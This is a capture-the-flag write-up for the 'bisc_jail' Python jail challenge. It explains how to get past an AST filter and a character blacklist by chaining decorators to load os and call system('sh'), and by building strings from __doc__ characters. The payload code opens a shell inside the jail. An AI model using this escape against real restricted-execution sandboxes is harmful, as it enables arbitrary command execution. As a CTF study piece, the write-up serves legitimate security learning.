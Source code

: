 ## bisc_jail

<img src="images/chall.png" width=400>

We are provided with a Pyjail that uses a custom AST for filtering, preventing any function invocations.  

<img src="images/ast.png" width=500>

The jail also implements a pretty simple blacklist, limiting our payload to a restricted character set.  

<img src="images/filter.png" width=600> 

Our payload is run against an `exec()` command in a custom environments, where access to builtins are removed and a custom loader is provided.  

<img src="images/env.png" width=600>

The `exec()` call and the inclusion of `@` in the charset clearly points towards a decorator chaining exploit, so we can craft a basic payload that uses `__loader__` to import `os` and make an `sh` call.    

```python
@(lambda x: x.system)
@__loader__.load_module
@(lambda _: 'os')
def f():0

@f
@(lambda _: 'sh')
def g():0
```

The next step would be to find a way to construct strings, since quotes aren't in the charset.  

Luckily, we can use a pretty standard technique of building strings by grabbing individual characters from an object's documentation. We can then use the `__add__` attribute in conjunction with our previous decorator chaining technique to construct the desired string.  

```python
# os
@().__doc__[34].__add__
@(lambda _:().__doc__[19])
def os():0
```

Putting it all together, we can finally get a shell where we are able to retrieve the flag.  

<img src="images/flag.png" width=600>